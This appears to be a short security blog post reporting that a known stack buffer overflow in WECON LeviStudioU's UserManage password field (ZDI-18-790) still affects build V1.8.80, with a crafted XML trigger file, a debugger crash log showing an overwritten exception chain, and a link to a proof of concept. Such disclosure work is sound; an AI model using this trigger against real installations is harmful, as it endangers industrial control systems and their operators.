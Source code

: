 ```yaml
---
layout: post
title: WECON LeviStudioU
date: 2020-01-22
excerpt: "."
tags: [exploit]
comments: false
---
```

## Wecon LeviStudioU UserManage PassWord Stack-based Buffer Overflow
[ZDI-18-790](https://www.zerodayinitiative.com/advisories/ZDI-18-790/) still
looks to be vulnerable in the most current build (Release Build 2019-09-21 V1.8.80).
xml like so:
```
<?xml version="1.0" encoding="UTF-8"?>
<project filever="1.0">
	<SourAddrToDestAddrInfo maxlen="100">
	</SourAddrToDestAddrInfo>
<UserList>
<User ID="1" Name="mc" PassWord="FUZZ" Description="mc" GroupIdSet=""/></UserList>
<GroupList>
<Group ID="1" Name="mc" Description="mc" UserIdSet=""/></GroupList></project>
```
when parsed, looks like this:
```
(b78.b7c): Access violation - code c0000005 (!!! second chance !!!)
eax=00000041 ebx=00000001 ecx=00130000 edx=013fb0c4 esi=00000000 edi=00000111
eip=71e0712b esp=0012ce60 ebp=0012ce60 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010206
MSVCR90!wcscpy+0xe:
71e0712b 668901          mov     word ptr [ecx],ax        ds:0023:00130000=6341
0:000> !exchain
0012d128: UserManage+86e6 (004086e6)
0012d35c: UserManage+8793 (00408793)
0012d4a4: *** ERROR: Module load completed but symbols could not be loaded for C:\Windows\WinSxS\x86_microsoft.vc90.mfc_1fc8b3b9a1e18e3b_9.0.30729.4148_none_4bf5400abf9d60b7\mfc90u.dll
mfc90u+21da9d (7280da9d)
0012d52c: mfc90u+21b4f9 (7280b4f9)
0012d594: mfc90u+219cc9 (72809cc9)
0012d638: USER32!_except_handler4+0 (7617629b)
0012d814: USER32!_except_handler4+0 (7617629b)
0012d874: USER32!_except_handler4+0 (7617629b)
0012d9ac: mfc90u+225d6f (72815d6f)
0012fed4: UserManage+10041 (00410041)
Invalid exception stack at 00410041
0:000> !load msec
0:000> !exploitable
Exploitability Classification: EXPLOITABLE
Recommended Bug Title: Exploitable - User Mode Write AV starting at MSVCR90!wcscpy+0x000000000000000e (Hash=0x6f7f1e52.0x6368127c)

User mode write access violations that are not near NULL are exploitable.
```
[poc](https://github.com/ceballosm/scratchpad/blob/master/WECON-LeviStudioU-UserManage-PassWord.tar.gz)
